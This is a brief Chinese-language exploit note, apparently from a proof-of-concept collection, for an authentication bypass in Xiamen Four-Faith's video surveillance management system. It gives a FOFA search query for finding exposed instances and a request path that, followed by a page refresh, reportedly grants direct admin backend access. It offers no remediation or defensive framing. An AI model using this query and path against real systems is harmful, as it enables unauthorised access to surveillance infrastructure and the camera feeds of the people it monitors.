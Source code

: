 ## 厦门四信通信科技有限公司视频监控管理系统存在逻辑缺陷漏洞

厦门四信通信科技有限公司视频监控管理系统存在逻辑缺陷漏洞，可直接绕过登录进入后台。

## fofa

```
body="/monitor/realt/init?curPageId=a1"
```

## poc

```
/mgrcter/usermgr/user/Login.action
```

![image-20240707202135740](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407072021787.png)

返回登录页面刷新一下进后台。

![image-20240707202157609](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407072021698.png)